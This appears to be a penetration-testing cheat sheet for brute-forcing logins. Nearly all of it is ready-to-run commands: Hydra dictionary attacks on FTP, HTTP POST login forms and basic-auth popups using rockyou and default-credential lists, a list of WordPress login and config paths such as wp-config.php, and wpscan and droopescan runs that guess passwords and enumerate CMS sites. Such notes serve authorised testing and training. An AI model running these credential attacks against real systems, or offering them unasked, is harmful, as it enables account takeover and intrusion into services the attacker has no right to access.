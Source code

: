 >  Dictionary Attack with Hydra:
- `hydra -L /wordlists/usernames.txt -P /wordlists/pass.txt service://IP`
- `hydra -L pathFile-usernames –P pathFile-passwords IP -s port service`
- `hydra -l username –P pathFile-passwords IP -s port service`
- `hydra -L pathFile-usernames –p password IP -s port service`
Example: `hydra -L /home/usernames.txt -P /home/pass.txt ftp://IP`


## Brute force to login

>  Hydra
- `hydra -l <username> -P </passwords_list.txt> target http-post-form "/login-page.php:fieldUsername=username&fieldPassword=^PASS^:text"``
- Example:
	* `hydra -l admin -P ./rockyou.txt IP http-post-form "/monitoring/login.php:username=admin&password=^PASS^:Invalid Credentials!"`


## Brute force to popup

> Hydra
- `hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt IP -s 30705 http-get /`


## Wordpress

> Pentest Wordpress
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress

> Interesting paths
* /wp-login.php
* /wp-login
* /wp-admin
* /wp-admin.php
* /login
* /wp-config.php
* /wp-content/uploads/
* /uploads
* /wp-includes/
* /admin
* /wp-admin/login.php
* /wp-admin/wp-login.php
* /login.php

- Wpscan
```bash
wpscan --url http://IP --password wordlistPass --usernames wordlistUsers
```
## Drupal

- droopescan: `droopescan scan drupal -u <http://example.org/> -t theads`
